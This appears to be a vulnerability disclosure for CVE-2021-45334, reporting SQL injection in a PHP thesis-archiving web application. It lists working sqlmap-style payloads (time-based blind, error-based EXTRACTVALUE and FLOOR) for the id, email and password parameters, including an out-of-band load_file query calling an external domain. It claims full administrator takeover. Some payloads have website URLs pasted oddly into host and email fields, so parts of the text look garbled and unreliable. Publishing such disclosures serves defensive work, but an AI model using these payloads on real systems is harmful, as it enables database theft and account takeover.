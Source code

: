 ## [CVE-2021-45334](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-45334)

## [Software](https://www.sourcecodester.com/php/15083/online-thesis-archiving-system-using-phpoop-free-source-code.html)

## [Vendor](https://www.sourcecodester.com/users/tips23)

![](https://github.com/nu11secur1ty/CVE-mitre/blob/main/CVE-2021-45334/Docs/Screenshot%202022-01-23%20185018.png)

## Description:
1. The id parameter appears to be vulnerable to SQL injection attacks. The payload '+(select load_file('\\\\bq5i3yy3ie4hujd4ewix366f96fz3trku8lvcj1.https://www.sourcecodester.com/php/15083/online-thesis-archiving-system-using-phpoop-free-source-code.html\\izr'))+' was submitted in the id parameter. 
This payload injects a SQL sub-query that calls MySQL's load_file function with a UNC file path that references a URL on an external domain. 
The application interacted with that domain, indicating that the injected SQL query was executed.
2. The email parameter appears to be vulnerable to SQL injection attacks.
A single quote was submitted in the email parameter, and a database error message was returned. 
Two single quotes were then submitted and the error message disappeared. 
You should review the contents of the error message, and the application's handling of other input, to confirm whether a vulnerability is present.
3. The password parameter appears to be vulnerable to SQL injection attacks. A single quote was submitted in the password parameter, and a database error message was returned. 
Two single quotes were then submitted and the error message disappeared. 
You should review the contents of the error message, and the application's handling of other input, to confirm whether a vulnerability is present.
The attacker can take account control of all accounts plus an administrator account on this system.

Status: CRITICAL

[+] Payloads:

```mysql
---
Parameter: id (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: page=projects_per_curriculum&id=5'+(select load_file('\\\\bq5i3yy3ie4hujd4ewix366f96fz3trku8lvcj1.https://www.sourcecodester.com/php/15083/online-thesis-archiving-system-using-phpoop-free-source-code.html\\izr'))+'') AND (SELECT 9313 FROM (SELECT(SLEEP(3)))pVaM) AND ('PsCV'='PsCV&p=0
---

---
Parameter: email (POST)
    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: email=teGJdfAf@https://www.sourcecodester.com/php/15083/online-thesis-archiving-system-using-phpoop-free-source-code.html' AND EXTRACTVALUE(1673,CONCAT(0x5c,0x717a6a7671,(SELECT (ELT(1673=1673,1))),0x716b6b6271))-- soOT&password=p7M!t9x!B8

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: email=teGJdfAf@https://www.sourcecodester.com/php/15083/online-thesis-archiving-system-using-phpoop-free-source-code.html' AND (SELECT 1818 FROM (SELECT(SLEEP(3)))UxzW)-- eCxu&password=p7M!t9x!B8
---

---
Parameter: password (POST)
    Type: error-based
    Title: MySQL OR error-based - WHERE or HAVING clause (FLOOR)
    Payload: email=teGJdfAf@https://www.sourcecodester.com/php/15083/online-thesis-archiving-system-using-phpoop-free-source-code.html'&password=-7774 OR 1 GROUP BY CONCAT(0x7176786a71,(SELECT (CASE WHEN (1810=1810) THEN 1 ELSE 0 END)),0x7170767871,FLOOR(RAND(0)*2)) HAVING MIN(0)#
---
```

## Reproduce:
[href](https://github.com/nu11secur1ty/CVE-mitre/blob/main/CVE-2021-45334)

## Proof and Exploit:

- I'm not talking about the `XSS` vulnerabilities! 😂😎

![](https://github.com/nu11secur1ty/CVE-mitre/blob/main/CVE-2021-45334/Docs/Multiple-SQL-Injections.png)

[href](https://streamable.com/2qww7e)

